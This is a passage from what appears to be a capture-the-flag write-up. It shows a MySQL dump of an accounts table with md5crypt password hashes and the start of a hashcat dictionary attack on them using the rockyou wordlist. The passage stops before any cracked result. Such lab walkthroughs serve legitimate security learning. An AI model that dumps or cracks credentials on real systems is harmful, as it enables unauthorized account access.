 ```bash
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> Show Tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> Select * From accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | admin    | $1$🧂llol$uXqzPW6SXUONt.AIOBqLy. | 2022-08-28 11:10:39 |
+----+----------+------------------------------------+---------------------+
```

The passwords were hashed. I saved them in a file and used hashcat to crack them. The admin's password was mine, but I left it in to make sure hashcat was working well with 🧂 int the salt.

```bash
$ cat hash.txt
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
$1$🧂llol$uXqzPW6SXUONt.AIOBqLy.


$ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 PRO 5850U with Radeon Graphics, skipped

OpenCL API (OpenCL 2.1 LINUX) - Platform #2 [Intel(R) Corporation]
==================================================================
* Device #2: AMD Ryzen 7 PRO 5850U with Radeon Graphics, 3897/7858 MB (982 MB allocatable), 6MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1


Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Passwords.: 14344385
* Bytes.....: 139921507
```